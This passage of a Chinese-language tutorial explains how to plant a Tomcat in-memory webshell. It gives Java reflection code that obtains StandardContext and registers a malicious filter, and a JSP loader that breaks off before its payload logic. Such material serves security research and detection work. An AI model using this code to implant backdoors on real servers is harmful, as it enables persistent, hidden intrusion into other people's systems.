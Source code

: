 ```auto
        Field Configs = standardContext.getClass().getDeclaredField("filterConfigs");
        Configs.setAccessible(true);
        Map filterConfigs = (Map) Configs.get(standardContext);
        filterConfigs.put(filtername,filterConfig);
```

要想修改这个 `context` ，就需要先获取到该 `context`,已知有三种获取方式

+   **将 `servletcontext` 转换成 `StandardContext`**
    
    ```auto
    web容器启动时，每个web应用都会创建一个servletcontext对象，代表当前web应用
    ```
    
    ```auto
    ServletContext servletContext = request.getSession().getServletContext();
        Field appctx = servletContext.getClass().getDeclaredField("context");
        appctx.setAccessible(true);
            // ApplicationContext 为 ServletContext 的实现类
        ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);
    
        Field stdctx = applicationContext.getClass().getDeclaredField("context");
        stdctx.setAccessible(true);
        StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);
    ```
    
+   ****通过Mbean获取context****
    
    ```auto
    [https://paper.seebug.org/1441/#2mbeancontext](https://paper.seebug.org/1441/#2mbeancontext)
    ```
    
+   **从线程中获取StandardContext**
    
    ```auto
    [https://zhuanlan.zhihu.com/p/114625962](https://zhuanlan.zhihu.com/p/114625962)
    
    ```
    

这里使用第一种方式写一个内存马

```auto
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.util.Map" %>
<%@ page import="java.io.IOException" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterDef" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterMap" %>
<%@ page import="java.lang.reflect.Constructor" %>
<%@ page import="org.apache.catalina.core.ApplicationFilterConfig" %>
<%@ page import="org.apache.catalina.Context" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.io.ByteArrayOutputStream" %>
<%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8"%>

<%
    ServletContext servletContext = request.getSession().getServletContext();

    Field appctx = servletContext.getClass().getDeclaredField("context");
    appctx.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);

    Field stdctx = applicationContext.getClass().getDeclaredField("context");
    stdctx.setAccessible(true);
    StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);

    //创建filter
```